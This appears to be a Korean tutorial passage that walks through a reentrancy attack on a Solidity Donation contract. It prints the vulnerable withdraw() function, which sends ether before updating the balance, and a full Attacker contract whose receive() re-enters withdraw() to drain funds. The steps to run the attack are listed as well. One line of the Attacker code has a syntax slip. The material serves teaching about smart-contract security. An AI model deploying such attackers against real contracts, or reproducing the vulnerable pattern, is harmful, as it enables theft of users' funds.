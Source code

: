 공격 컨트랙트)
```solidity
//SPDX-License-Identifier:MIT
pragma solidity ^0.8.0;

import "./Donation.sol"

contract Attacker {
    address payable owner;
    uint256 public v = 0.5 ether;
    Donation public donation;

    constructor(address payable _addr) payable {
        owner = payable(msg.sender);
        donation = Donation(_addr);
    }

    function donate external {
        donation.donate{value: v}(address(this));
    }

    receive() external payable {
        if(address(donation).balance >= v) {
            donation.withdraw(v);
        }
    }

    function kill() external {
        selfdestruct(owner);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Attacker 컨트랙트에서 주의깊에 봐야할 부분은 **receive() 함수**  
이더를 받는 함수 안에서 다시 Donation 컨트랙트의 withdraw()함수를 호출함. (←이 코드가 어떻게 Donation 컨트랙트에 기부된 이더를 무단으로 인출하는지가 핵심!!)

> 1. Donation 컨트랙트 배포   
> 2. Attacker 컨트랙트 배포 + 1 이더 전송 (Donation 컨트랙트에 기부용)
> 3. 정상적으로 Donation 컨트랙트에 기부
> 4. donate() 호출 (value 항목에 기부할 수량을 넣고 기부 받는 계정은 임의의 계정을 넣어도 상관 없음)
> 5. 이더가 Donation 컨트랙트에 예치되고, 그 기록은 balances 장부에 기록. (각 계정의 인출 가능 수량은 balanceOf()로 조회할 수 있음)   
> ** 기부를 받은 계정들은 장부에 기록된 기부 수량 이상을 인출할 수 없는 조건이 적용되어 있기 때문에 부정 인출이 일어날 수 없는 것처럼 보임   
 ```solidity
    function withdraw(uint256 _amount) public {
        if(balances[msg.sender] >= _amount) {
            (bool bOk, ) = msg.sender.call{value:_amount}("");

            if(!bOk) {
                revert();
            }

            unchecked { balances[msg.sender] -= _amount;}
        }
    }
```
> 6. 공격자는 Attacker 컨트랙트의 donate() 함수를 실행. 이 함수는 Donation 컨트랙트의 donate() 함수를 호출   
→ 그런데 여기서 기부 받는 계정은 Attacker 컨트랙트 자신으로 되어있음!!! 여기서는 0.5 이더를 자신에게 기부하도록 되어있음.
```solidity
function donate() external {
    donation.donate{value: v}(address(this));
```